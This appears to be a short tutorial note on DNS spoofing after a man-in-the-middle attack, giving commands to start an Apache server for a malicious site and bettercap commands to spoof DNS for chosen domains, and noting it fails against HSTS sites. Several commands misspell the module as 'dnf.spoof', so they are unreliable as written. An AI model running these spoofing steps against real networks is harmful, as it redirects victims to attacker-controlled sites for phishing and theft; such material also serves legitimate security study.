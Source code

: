 ```yaml
---
title: DNS Spoofing Attack
---
```


After performing MITM attack all the targets packets are flowing through our system. We can redirect the user to an malicious website by spoofing the DNS request of the user

#### Start Apache Server

````bash
systemctl start apache2.service
````

/var/www/html : Location of Apache Files

#### DNS Spoofing

````bash
bettercap -iface <interface> -caplet <spoof-data-cap-file>
help dns.spoof

set dnf.spoof.all true
# Domains for which DNS should be spoofed
set dnf.spoof.domains <domains> 
dnf.spoof on
````

This attack does not work on HSTS websites